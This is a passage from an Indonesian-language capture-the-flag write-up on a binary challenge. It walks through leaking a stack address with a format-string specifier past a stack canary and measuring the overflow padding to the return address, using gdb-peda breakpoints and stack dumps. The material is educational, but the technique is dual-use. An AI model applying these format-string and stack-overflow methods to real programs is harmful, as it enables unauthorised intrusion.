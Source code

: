 Jika kita lihat isi dari stack setelah canary : 0xffffcf00, nilai ini adalah alamat pada stack yang letaknya di bagian bawah. Kita berharap saja nilai di alamat setelah stack ini selalu berisi alamat pada stack yang letaknya di bawah. Sehingga kita ambil address nya dengan `%84$x`, lalu kita return ke alamat tersebut.

Pertama, kita cari dulu panjang / padding dari input kedua kita sampai ke return. Pasang breakpoint pada saat gets dan pada saat return.

```
gdb-peda$ break *0x080486f0
Breakpoint 1 at 0x80486f0
gdb-peda$ break *0x08048729
Breakpoint 2 at 0x8048729
```

Setelah gets
```
   0x80486f0 <main+168>:	call   0x8048460 <gets@plt>
=> 0x80486f5 <main+173>:	add    esp,0x10
   0x80486f8 <main+176>:	sub    esp,0xc
   0x80486fb <main+179>:	lea    eax,[ebx-0x17de]
   0x8048701 <main+185>:	push   eax
   0x8048702 <main+186>:	call   0x8048490 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffcd90 --> 0xffffcda6 ("AAAA")
0004| 0xffffcd94 --> 0x8048803 ("Hai %s!\n")
0008| 0xffffcd98 --> 0xffffce0a --> 0xceb40041 
0012| 0xffffcd9c --> 0x80486a8 (<main+96>:	sub    esp,0x4)
0016| 0xffffcda0 --> 0x0 
0020| 0xffffcda4 --> 0x41418304 
0024| 0xffffcda8 --> 0x4141 ('AA')
0028| 0xffffcdac --> 0x0 
[------------------------------------------------------------------------------]
```

Saat akan return 
```
[-------------------------------------code-------------------------------------]
   0x8048724 <main+220>:	pop    ebx
   0x8048725 <main+221>:	pop    ebp
   0x8048726 <main+222>:	lea    esp,[ecx-0x4]
=> 0x8048729 <main+225>:	ret    
   0x804872a:	xchg   ax,ax
   0x804872c:	xchg   ax,ax
   0x804872e:	xchg   ax,ax
   0x8048730 <__libc_csu_init>:	push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xffffcefc --> 0xf7df2e81 (<__libc_start_main+241>:	add    esp,0x10)
0004| 0xffffcf00 --> 0x1 
0008| 0xffffcf04 --> 0xffffcf94 --> 0xffffd177 ("/home/l0l/CTF/Soal/Writeup/ctf-writeup/ASGamaCTF/Binary/Bebas/bebas")
0012| 0xffffcf08 --> 0xffffcf9c --> 0xffffd1bb ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
0016| 0xffffcf0c --> 0xffffcf24 --> 0x0 
0020| 0xffffcf10 --> 0x1 
0024| 0xffffcf14 --> 0x0 
0028| 0xffffcf18 --> 0xf7faf000 --> 0x1d4d6c 
[------------------------------------------------------------------------------]
```
